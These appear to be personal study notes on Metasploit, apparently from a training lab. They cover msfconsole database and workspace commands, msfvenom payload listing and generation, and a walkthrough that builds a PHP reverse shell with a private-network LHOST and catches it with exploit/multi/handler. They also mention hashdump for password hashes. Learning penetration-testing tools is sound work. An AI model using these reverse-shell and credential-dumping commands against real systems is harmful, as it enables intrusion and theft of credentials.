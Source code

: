 3. `sudo msfconsole`
4. `db_status`
--
`workspace` | lists available workspaces (workspaces separate projects)
`workspace -a/-d <workspace>` | add or delete workspace 
--
when launched with db metasploits help command will show help options fo the database backends commands
--
`db_namp <ip>` | will run nmap scan and save in msf db, then you can reach this information with hosts and services commands
`hosts` | displays host information (-h for help with commands)
`services` | displays service information for hosts
`services -S <service>` | search for specific services 
--
**msf exploitation**
--
try different payloads
use meterpreter search command to find files
hashdump for password hashes of users
--
**Msfvenom**
--
allows you to access all payloads available in msf
allows you to create payloads in different formats (php, exe, dll, elf, etc)
can generate standalone payloads or get usabale raw format like python
--
`<OS>/<arch>/<payload>` | general naming convention for finding payloads, windows x32 do not need arch property
example:
`linux/x86/shell_reverse_tcp`
`windows/shell_reverse_tcp`
staged protocols are represent with a / not underscore | `linux/x86/shell/reverse_tcp` | the latter is stageless
--
`msfvenom -p <PAYLOAD> <OPTIONS>` | standard syntax
--
`msfvenom -l payloads` | list payloads
`msfvenom --list formats` |  used to list supported output formats of a payload
`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64` | outputs the php/meterpreter/reverse_tcp payload in a raw base64 format for the payload
`msfvenom --list payloads | grep meterpreter` | specified search for payloads
--
**handlers**
--
needed to listen for incoming connections from msfvenom payloads (sometimes just needed in general)
--
`use exploit/multi/handler` | module used to set up handler for payload (supports all payloads, even meterpreter)
`exploit -j` | start listener as a background job
--
**exploitation walkthrough**
--
1. generate payload - `msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`
2. edit payload to make it usable/proper
3. set up multi hanler - `use exploit/multi/handler` - fill in default information thats required
4. set payload value of multi handler to the correct type of shell to match the type of shell from msfvenom
5. run handler
--
**common payloads used**
--
all reversed so they require a handler